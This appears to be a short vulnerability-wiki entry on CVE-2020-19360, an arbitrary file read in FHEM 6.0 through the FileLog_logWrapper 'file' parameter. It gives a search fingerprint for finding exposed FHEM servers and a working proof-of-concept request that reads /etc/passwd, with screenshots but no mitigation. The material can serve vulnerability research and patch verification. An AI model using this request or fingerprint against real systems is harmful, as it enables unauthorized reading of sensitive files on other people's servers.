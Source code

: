 # Fhem FileLog_logWrapper Arbitrary file reading vulnerability CVE-2020-19360

## Vulnerability Description

FHEM has a file inclusion vulnerability in version 6.0. This vulnerability originated from allowing the FHEM/FileLog_logWrapper file parameter to allow an attacker to include files, which can be exploited by the attacker to cause the leakage of sensitive information.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">FHEM 6.0

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">title=="Home, Sweet Home"</span>

## Vulnerability reappears

Main page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1637586979107-0847f305-1296-43e5-8094-f662c312cc7e.png)

Verify POC

```python
/fhem/FileLog_logWrapper?dev=Logfile&file=%2fetc%2fpasswd&type=text
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1637587030568-032b48b0-d999-4259-8651-e4e96400eb54.png)